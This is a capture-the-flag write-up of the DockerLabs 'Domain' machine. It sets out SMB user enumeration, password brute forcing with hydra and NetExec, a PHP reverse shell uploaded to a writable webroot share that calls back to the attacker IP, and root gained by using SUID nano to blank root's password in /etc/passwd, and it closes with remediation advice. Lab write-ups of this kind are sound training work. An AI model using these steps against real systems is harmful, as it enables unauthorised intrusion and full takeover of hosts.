# Domain — DockerLabs Writeup

**Platform:** DockerLabs · **Difficulty:** Medium · **Target IP:** 172.17.0.2 · **Attacker IP:** 172.17.0.1


## Summary

Domain is a medium machine that starts with a themed Apache page hinting at Samba, backed by an actual Samba (SMB) service. Anonymous SMB access is denied, but RPC-based user enumeration (`enum4linux -U`) leaks two valid usernames. Password brute-forcing one of them yields working SMB credentials, which unlock a writable share that turns out to be the Apache webroot itself. Uploading a PHP reverse shell through that share and triggering it over HTTP gives a `www-data` shell. From there, a misconfigured SUID bit on `nano` allows direct editing of `/etc/passwd` to gain root.

**Attack chain:** Recon → Web page hints at Samba → SMB enumeration (no anonymous access) → RPC/RID cycling leaks usernames `james`/`bob` → Password brute-force finds `bob:star` → Authenticated SMB share `html` is read/write and matches the Apache webroot → Upload PHP reverse shell via `smbclient` → Trigger over HTTP → shell as `www-data` → SUID `nano` found → edit `/etc/passwd` → `su root` → root

## 1. Reconnaissance

```bash
ping -c 5 172.17.0.2
```



```bash
nmap -p- -sS -sC -sV -vvv --open -oN scan.txt 172.17.0.2
```

```
PORT    STATE SERVICE     REASON         VERSION
80/tcp  open  http        syn-ack ttl 64 Apache httpd 2.4.52 ((Ubuntu))
| http-methods:
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: \xC2\xBFQu\xC3\xA9 es Samba?
|_http-server-header: Apache/2.4.52 (Ubuntu)
139/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 4
445/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 4
MAC Address: BE:E3:77:78:47:A0 (Unknown)
Host script results:
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required
|_clock-skew: 0s
| smb2-time:
|   date: 2026-08-14T14:12:29
|_  start_date: N/A

Nmap done: 1 IP address (1 host up) scanned in 32.63 seconds
```

Three ports open: HTTP on 80, and 139/445 running Samba. The HTTP title itself ("¿Qué es Samba?") is a direct hint pointing at the SMB service.

## 2. Web Enumeration

Browsing to the target on port 80 confirms the hint — a static informational page about what Samba is and what it's used for, nothing interactive.



No forms, no other content — this page exists purely to point the attacker toward SMB.

## 3. SMB Enumeration

First pass, unauthenticated:

```bash
smbmap -H 172.17.0.2
```



Three shares exist (`print$`, `html`, `IPC$`) but the null session gets `NO ACCESS` across the board — no anonymous access.

## 4. User Enumeration via RPC

With no direct share access, RID cycling over RPC (`enum4linux -U`) was tried against the null session:

```bash
enum4linux -U 172.17.0.2
```



The target allows a null session (`username ''`, `password ''`) for RPC queries, and RID cycling in the 500-550,1000-1050 range leaks two real accounts:

```
user:[james] rid:[0x3e8]
user:[bob] rid:[0x3e9]
```

## 5. Password Brute-Force

Hydra's SMB module was tried first, but this version of Hydra only speaks SMBv1, which the server has disabled:

```bash
hydra -l james -P /usr/share/wordlists/rockyou.txt smb://172.17.0.2
hydra -l bob -P /usr/share/wordlists/rockyou.txt smb://172.17.0.2
```

```
[ERROR] target smb://172.17.0.2:445/ does not support SMBv1
```

Switched to **NetExec (nxc)**, which supports SMBv2/v3, against both usernames with a larger wordlist:

```bash
nxc smb 172.17.0.2 -u bob -p /usr/share/wordlists/seclists/Passwords/Common-Credentials/xato-net-10-million-passwords-1000000.txt
```

```
SMB   172.17.0.2   445   601FD90D9CFF   [*] Unix - Samba (name:601FD90D9CFF) (domain:601FD90D9CFF) (signing:False) (SMBv1:None) (Null Auth:True)
SMB   172.17.0.2   445   601FD90D9CFF   [-] 601FD90D9CFF\bob:123456 STATUS_LOGON_FAILURE
SMB   172.17.0.2   445   601FD90D9CFF   [-] 601FD90D9CFF\bob:password STATUS_LOGON_FAILURE
...
SMB   172.17.0.2   445   601FD90D9CFF   [+] 601FD90D9CFF\bob:star
```

**Valid credential found: `bob:star`**

The same attack against `james` with the same wordlist completed without a hit — no valid password found for that account.

```bash
nxc smb 172.17.0.2 -u james -p /usr/share/wordlists/seclists/Passwords/Common-Credentials/xato-net-10-million-passwords-1000000.txt
```

```
SMB   172.17.0.2   445   601FD90D9CFF   [-] 601FD90D9CFF\james:123456 STATUS_LOGON_FAILURE
SMB   172.17.0.2   445   601FD90D9CFF   [-] 601FD90D9CFF\james:password STATUS_LOGON_FAILURE
...
(no successful login)
```

## 6. Authenticated SMB Access — Writable Webroot

Re-running `smbmap` with the `bob:star` credential shows a very different picture:

```bash
smbmap -H 172.17.0.2 -u bob -p star
smbclient //172.17.0.2/html -U bob
```



| Share | Permissions |
|-------|-------------|
| `print$` | READ ONLY |
| `html` | **READ, WRITE** |
| `IPC$` | NO ACCESS |

Inside the `html` share:

```bash
smb: \> ls
smb: \> get index.html
```



```bash
cat index.html
```

The downloaded `index.html` is byte-for-byte the same "¿Qué es Samba?" page served on port 80 — confirming that the `html` SMB share **is** Apache's webroot. Since it's writable, anything uploaded here becomes directly accessible over HTTP.

## 7. Getting a Shell — PHP Reverse Shell via SMB Upload

Prepared a standard PHP reverse shell (pentestmonkey's `php-reverse-shell`), pointed at the attacker IP and a listening port:

```php
$ip = '172.17.0.1';
$port = 4444;
```

Uploaded it directly to the writable webroot share:

```bash
smbclient //172.17.0.2/html -U bob
smb: \> put revshell.php
putting file revshell.php as \revshell.php (2523.2 kB/s) (average 2523.4 kB/s)
```

Started a listener, then triggered the shell by requesting the file over HTTP:

```bash
nc -lvnp 4444
```

```bash
# in a browser or with curl:
http://172.17.0.2/revshell.php
```



The listener catches the connection:



```
listening on [any] 4444 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 41850
Linux 601fd90d9cff 7.0.12+kali-amd64 #1 SMP PREEMPT_DYNAMIC Kali 7.0.12-2kali1 (2026-06-18) x86_64
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Shell landed as `www-data`. Stabilized it with the standard `script` trick:

```bash
$ script /dev/null -c bash
www-data@601fd90d9cff:/$ ^Z
[1]  + suspended  nc -lvnp 4444
$ stty raw -echo; fg
www-data@601fd90d9cff:/$ export TERM=xterm
www-data@601fd90d9cff:/$ export SHELL=bash
```

## 8. Post-Exploitation — Enumeration

```bash
sudo -l
```

```
bash: sudo: command not found
```

`sudo` isn't installed. Checked for SUID binaries instead:

```bash
find / -perm -4000 2>/dev/null
```

```
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/mount
/usr/bin/nano
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

`/usr/bin/nano` stands out immediately — it's not a standard SUID binary, and having the SUID bit set means it runs with root's effective privileges regardless of who invokes it.

## 9. Privilege Escalation — SUID nano

Opened `/etc/passwd` with the SUID `nano`:

```bash
nano /etc/passwd
```



Nano's permission check compares against the *real* UID (`www-data`), not the *effective* one (root from the SUID bit), so it displays a misleading `File '/etc/passwd' is unwritable` warning on the first save attempt. This warning can be ignored — the underlying write still happens with root's effective privileges.



Cleared the password field on root's line, turning:

```
root:x:0:0:root:/root:/bin/bash
```

into:

```
root::0:0:root:/root:/bin/bash
```

An empty password field lets `su root` succeed with no password prompt at all.

```bash
nano /etc/passwd
su root
```



```bash
cd /root
id
whoami
```



```
uid=0(root) gid=0(root) groups=0(root)
root
```

Root achieved.

## Root Cause & Remediation

| Issue | Fix |
|-------|-----|
| Null/anonymous SMB session allowed RPC user enumeration (RID cycling) | Disable null sessions (`restrict anonymous`) and RPC enumeration where not explicitly required |
| Weak, wordlist-guessable password for `bob` (`star`) | Enforce strong, unique passwords and account lockout policies on SMB-facing accounts |
| SMB share `html` writable by a low-privilege service account, and identical to the Apache webroot | Never make a web-facing document root writable via a separate service (SMB); if file drop is needed, use a directory outside the webroot with no execute permissions |
| No restriction on uploaded file types over the writable SMB share | Validate/restrict file extensions server-side; disable script execution in upload-only directories |
| `nano` with the SUID bit set | Remove SUID bits from text editors and any binary that isn't specifically designed to run privileged (`find / -perm -4000` should be audited regularly); use `sudo` with a tightly scoped policy instead of SUID editors |
| `/etc/passwd` directly editable by any process with root's effective privileges | Standard hardening — but worth noting the empty-password trick works because PAM/`su` accepts a blank password hash; consider `nullok` restrictions if not already disabled |
